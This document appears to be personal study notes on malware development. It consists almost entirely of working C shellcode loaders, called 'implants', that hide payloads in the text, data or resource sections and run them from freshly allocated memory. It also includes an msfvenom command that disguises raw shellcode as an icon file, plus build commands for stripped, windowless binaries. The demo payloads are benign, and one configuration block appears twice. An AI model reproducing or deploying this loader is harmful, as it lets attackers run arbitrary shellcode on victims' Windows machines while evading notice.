

![[Pasted image 20260303161145.png]]




> [!example]- In Text Section
>```c
>#include <windows.h>
>#include <stdio.h>
>#include <stdlib.h>
>#include <string.h>
>
>
>int main(void) {
>    
>	BYTE payload[] = {
>		0x90,		// NOP
>		0x90,		// NOP
>		0xcc,		// INT3
>		0xc3		// RET
>	};
>	
>	SIZE_T payload_len = sizeof(payload);
>	
>	// Allocate a memory buffer for payload
>	LPVOID exec_mem = VirtualAlloc(0, payload_len,
>	 MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
>	
>	if (!exec_mem) {
 >   DWORD err = GetLastError();
>    printf("VirtualAlloc failed. Error: %lu\n", err);
 >   return 1;
>	}
>	
>	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
>	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);
>	
>	printf("Hit Me\n");
>	getchar();
>	
>	// Copy payload to new buffer
>	RtlMoveMemory(exec_mem, payload, payload_len);
>	// or memcpy((BYTE*)exec_mem, payload, payload_len);
>	
>	// change memory protection
>	DWORD oldprotect = 0;
>	if (!VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect)) {
>		printf("[-] Somthing it's Wrong to change Protection\n");
>		return 1;		
>	}
>	
>	HANDLE th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
>	WaitForSingleObject(th, INFINITE);
>	CloseHandle(th);
>	VirtualFree(exec_mem, 0, MEM_RELEASE);
>	return 0;
> }
>```

> [!warning]- In Data Section
>```c
>#include <windows.h>
>#include <stdio.h>
>#include <stdlib.h>
>#include <string.h>
>
>	BYTE payload[] = {
>		0x90,		// NOP
>		0x90,		// NOP
>		0xcc,		// INT3
>		0xc3		// RET
>	};
>
>int main(void) {
>    
>	SIZE_T payload_len = sizeof(payload);
>	
>	// Allocate a memory buffer for payload
>	LPVOID exec_mem = VirtualAlloc(0, payload_len,
>	 MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
>	
>	if (!exec_mem) {
>    DWORD err = GetLastError();
 >   printf("VirtualAlloc failed. Error: %lu\n", err);
>    return 1;
>	}
>	
>	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
>	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);
>	
>	printf("Hit Me\n");
>	getchar();
>	
>	// Copy payload to new buffer
>	RtlMoveMemory(exec_mem, payload, payload_len);
>	// or memcpy((BYTE*)exec_mem, payload, payload_len);
>	
>	// change memory protection
>	DWORD oldprotect = 0;
>	if (!VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect)) {
>		printf("[-] Somthing it's Wrong to change Protection\n");
>		return 1;		
>	}
>	
>	HANDLE th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
>	WaitForSingleObject(th, INFINITE);
>	CloseHandle(th);
>	VirtualFree(exec_mem, 0, MEM_RELEASE);
>	return 0;
>}
>```

## Compile Time

> [!hint]+ Windows Build (cl.exe)
> ```batch
> @ECHO OFF
> cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
> ```

> [!hint]+ MinGW Compiler With Console
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -s -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler Without Console
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -mwindows -s -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler For Debug
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -g -O0 -Wall -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler Strong Security
> ```bash
> x86_64-w64-mingw32-g++ implantc.cpp -O2 -D_FORTIFY_SOURCE=2 -fstack-protector-strong -fstack-clash-protection -Wl,--dynamicbase -Wl,--nxcompat -Wl,--high-entropy-va -Wall -Wextra -o secure.exe
> ```

> [!hint]+ MinGW Compiler Hard Reverse
> ```bash
> x86_64-w64-mingw32-g++ main.cpp -O3 -flto -fstack-protector-strong -fstack-clash-protection -fPIE -pie -s -o hard.exe
> x86_64-w64-mingw32-strip --strip-all hard.exe
> ```

> [!example]+ In rsrc Section
> ##### implant.cpp
> ```c
> #include <windows.h>
> #include <stdio.h>
> #include <stdlib.h>
> #include <string.h>
> #include "resources.h"
> 
> int main(void) {
>     
>     HRSRC res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
>     if (!res) {
>         printf("FindResource failed: %lu\n", GetLastError());
>         return 1;
>     }
>     
>     HGLOBAL resHandle = LoadResource(NULL, res);
>     if (!resHandle) {
>         printf("LoadResource failed: %lu\n", GetLastError());
>         return 1;
>     }
>     
>     const BYTE *payload = (const BYTE*)LockResource(resHandle);
>     if (!payload) {
>         printf("LockResource failed\n");
>         return 1;
>     }
>     
>     SIZE_T payload_len = SizeofResource(NULL, res);
>     if (!payload_len) {
>         printf("SizeofResource failed: %lu\n", GetLastError());
>         return 1;
>     }
>     
>     // Allocate a memory buffer for payload
>     LPVOID exec_mem = VirtualAlloc(0, payload_len,
>         MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
>     
>     if (!exec_mem) {
>         DWORD err = GetLastError();
>         printf("VirtualAlloc failed. Error: %lu\n", err);
>         return 1;
>     }
>     
>     printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
>     printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);
>     
>     printf("Hit Me\n");
>     getchar();
>     
>     // Copy payload to new buffer
>     RtlMoveMemory(exec_mem, payload, payload_len);
>     // or memcpy((BYTE*)exec_mem, payload, payload_len);
>     
>     // Change memory protection
>     DWORD oldprotect = 0;
>     if (!VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect)) {
>         printf("[-] Somthing it's Wrong to change Protection\n");
>         return 1;        
>     }
>     
>     HANDLE th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
>     WaitForSingleObject(th, INFINITE);
>     CloseHandle(th);
>     
>     VirtualFree(exec_mem, 0, MEM_RELEASE);
>     return 0;
> }
> ```
> ## Resource Configuration
>> [!info]+ resources.rc
>> ```c++
>> #include "resources.h"
>> 
>> FAVICON_ICO RCDATA calc.ico
>> ```
>
>> [!info]+ resources.h
>> ```c++
>> #define FAVICON_ICO 100
>> ```
>
>> [!tip]+ msfvenom Command
>> ```bash
>> msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.ico
>> ```
> ## Resource Configuration
>> [!info]+ resources.rc
>> ```c++
>> #include "resources.h"
>> 
>> FAVICON_ICO RCDATA calc.ico
>> ```
>
>> [!info]+ resources.h
>> ```c++
>> #define FAVICON_ICO 100
>> ```
>
>> [!tip]+ msfvenom Command
>> ```bash
>> msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.ico
>> ```

## Compile Time

> [!hint]+ Windows Build (cl.exe)
> ```batch
> @ECHO OFF
> rc resources.rc
> cvtres /MACHINE:x64 /OUT:resources.o resources.res
> cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
> ```

> [!hint]+ MinGW Compiler Without Stripped (For Debug)
> ```bash
> x86_64-w64-mingw32-windres resources.rc resources.o
> ```
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp resources.o -O0 -g -fno-stack-protector -Wl,-subsystem,console -o implant_debug.exe
> ```

> [!hint]+ MinGW Compiler With Stripped
> ```bash
> x86_64-w64-mingw32-windres resources.rc resources.o
> ```
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp resources.o -O2 -static -s -fno-stack-protector -DNDEBUG -Wl,-subsystem,console -o implant.exe
> ```

